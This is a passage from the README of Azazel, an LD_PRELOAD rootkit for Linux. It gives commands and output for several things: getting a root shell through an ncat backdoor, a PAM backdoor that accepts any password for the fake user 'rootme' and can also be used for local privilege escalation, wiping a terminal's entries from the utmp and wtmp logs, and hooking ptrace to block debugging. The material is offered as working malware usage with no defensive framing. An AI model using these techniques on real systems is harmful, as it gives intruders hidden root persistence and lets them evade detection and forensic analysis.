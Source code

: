        $ LD_PRELOAD=./crypthook.so ncat localhost 22 -p 61051
       changeme
       Welcome!
       Here's a shell.
       root@host:/root/ #

### PAM backdoor

The PAM hooks work by waiting for the specified fake user to attempt a
connection. The hooks return the pw entry for root and accept any
password to establish a successful login. Since this method would
generally be used with sshd, the connection will not be hidden unless
you can force ssh client to bind to a local port within one of the port
ranges. Another client shared library has been included to force a
program to bind to a port that we'd like to hide.

       $ make client
       $ LD_PRELOAD=./client.so ssh rootme@localhost
       root@host:/ #

-   The PAM hooks can also be used for local privesc.



       $ su - rootme
       #

Log Clearing
------------

Log clearing can be accomplished by setting the environment variable to
the tty/pts device that you want to remove from the records and then
executing a command. When accessing the target system using either of
the accept backdoors, the given pseudoterminal is automatically removed
from both utmp and wtmp log files. However, if you need to use the PAM
backdoor through SSH, you will need to manually remove your pts from the
logs as demonstrated below.

       $ w | grep pts/16
       root   pts/16   :0.0             Wed16    2:33m  0.16s  0.16s bash

       $ CLEANUP_LOGS="pts/16" ls
       utmp logs cleaned up.
       wtmp logs cleaned up.

       $ w | grep pts/16
       $

Anti-Debugging
--------------

Azazel hooks **ptrace()** and returns -1, hence denying any debugging
from occuring. The message displayed to the sysadmin is really more of a
joke than anything and will definitely set off alarms that something is
wrong.

       $ strace -p $PPID
       Don't scratch the walls
